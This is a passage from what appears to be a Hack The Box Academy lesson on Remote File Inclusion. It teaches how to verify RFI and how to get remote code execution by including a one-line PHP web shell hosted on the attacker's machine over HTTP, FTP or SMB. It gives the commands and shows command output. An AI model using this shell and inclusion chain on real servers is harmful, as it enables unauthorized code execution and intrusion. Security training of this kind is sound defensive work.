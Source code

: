 So far in this module, we have been mainly focusing on `Local File Inclusion (LFI)`. However, in some cases, we may also be able to include remote files "[Remote File Inclusion (RFI)](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion)", if the vulnerable function allows the inclusion of remote URLs. This allows two main benefits:

1. Enumerating local-only ports and web applications (i.e. SSRF)
2. Gaining remote code execution by including a malicious script that we host

In this section, we will cover how to gain remote code execution through RFI vulnerabilities. The [Server-side Attacks](https://academy.hackthebox.com/module/details/145) module covers various `SSRF` techniques, which may also be used with RFI vulnerabilities.

## Local vs. Remote File Inclusion

When a vulnerable function allows us to include remote files, we may be able to host a malicious script, and then include it in the vulnerable page to execute malicious functions and gain remote code execution. If we refer to the table on the first section, we see that the following are some of the functions that (if vulnerable) would allow RFI:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`file_get_contents()`|✅|❌|✅|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`@Html.RemotePartial()`|✅|❌|✅|
|`include`|✅|✅|✅|

As we can see, almost any RFI vulnerability is also an LFI vulnerability, as any function that allows including remote URLs usually also allows including local ones. However, an LFI may not necessarily be an RFI. This is primarily because of three reasons:

1. The vulnerable function may not allow including remote URLs
2. You may only control a portion of the filename and not the entire protocol wrapper (ex: `http://`, `ftp://`, `https://`).
3. The configuration may prevent RFI altogether, as most modern web servers disable including remote files by default.

Furthermore, as we may note in the above table, some functions do allow including remote URLs but do not allow code execution. In this case, we would still be able to exploit the vulnerability to enumerate local ports and web applications through SSRF.

## Verify RFI

In most languages, including remote URLs is considered as a dangerous practice as it may allow for such vulnerabilities. This is why remote URL inclusion is usually disabled by default. For example, any remote URL inclusion in PHP would require the `allow_url_include` setting to be enabled. We can check whether this setting is enabled through LFI, as we did in the previous section:

  Remote File Inclusion (RFI)

```shell-session
trmchale@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

However, this may not always be reliable, as even if this setting is enabled, the vulnerable function may not allow remote URL inclusion to begin with. So, a more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to `try and include a URL`, and see if we can get its content. At first, `we should always start by trying to include a local URL` to ensure our attempt does not get blocked by a firewall or other security measures. So, let's use (`http://127.0.0.1:80/index.php`) as our input string and see if it gets included:

   

![](https://academy.hackthebox.com/storage/modules/23/lfi_local_url_include.jpg)

As we can see, the `index.php` page got included in the vulnerable section (i.e. History Description), so the page is indeed vulnerable to RFI, as we are able to include URLs. Furthermore, the `index.php` page did not get included as source code text but got executed and rendered as PHP, so the vulnerable function also allows PHP execution, which may allow us to execute code if we include a malicious PHP script that we host on our machine.

We also see that we were able to specify port `80` and get the web application on that port. If the back-end server hosted any other local web applications (e.g. port `8080`), then we may be able to access them through the RFI vulnerability by applying SSRF techniques on it.

**Note:** It may not be ideal to include the vulnerable page itself (i.e. index.php), as this may cause a recursive inclusion loop and cause a DoS to the back-end server.

## Remote Code Execution with RFI

The first step in gaining remote code execution is creating a malicious script in the language of the web application, PHP in this case. We can use a custom web shell we download from the internet, use a reverse shell script, or write our own basic web shell as we did in the previous section, which is what we will do in this case:

  Remote File Inclusion (RFI)

```shell-session
trmchale@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now, all we need to do is host this script and include it through the RFI vulnerability. It is a good idea to listen on a common HTTP port like `80` or `443`, as these ports may be whitelisted in case the vulnerable web application has a firewall preventing outgoing connections. Furthermore, we may host the script through an FTP service or an SMB service, as we will see next.

## HTTP

Now, we can start a server on our machine with a basic python server with the following command, as follows:

  Remote File Inclusion (RFI)

```shell-session
trmchale@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

Now, we can include our local shell through RFI, like we did earlier, but using `<OUR_IP>` and our `<LISTENING_PORT>`. We will also specify the command to be executed with `&cmd=id`:

   

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

As we can see, we did get a connection on our python server, and the remote shell was included, and we executed the specified command:

  Remote File Inclusion (RFI)

```shell-session
trmchale@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -
```

**Tip:** We can examine the connection on our machine to ensure the request is being sent as we specified it. For example, if we saw an extra extension (.php) was appended to the request, then we can omit it from our payload

## FTP

As mentioned earlier, we may also host our script through the FTP protocol. We can start a basic FTP server with Python's `pyftpdlib`, as follows:

  Remote File Inclusion (RFI)

```shell-session
trmchale@htb[/htb]$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

This may also be useful in case http ports are blocked by a firewall or the `http://` string gets blocked by a WAF. To include our script, we can repeat what we did earlier, but use the `ftp://` scheme in the URL, as follows:

   

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

As we can see, this worked very similarly to our http attack, and the command was executed. By default, PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:

  Remote File Inclusion (RFI)

```shell-session
trmchale@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## SMB

If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

We can spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default, as follows:

  Remote File Inclusion (RFI)

```shell-session
trmchale@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Now, we can include our script by using a UNC path (e.g. `\\<OUR_IP>\share\shell.php`), and specify the command with (`&cmd=whoami`) as we did earlier:

   

![](https://academy.hackthebox.com/storage/modules/23/windows_rfi.png)

As we can see, this attack works in including our remote script, and we do not need any non-default settings to be enabled. However, we must note that this technique is `more likely to work if we were on the same network`, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.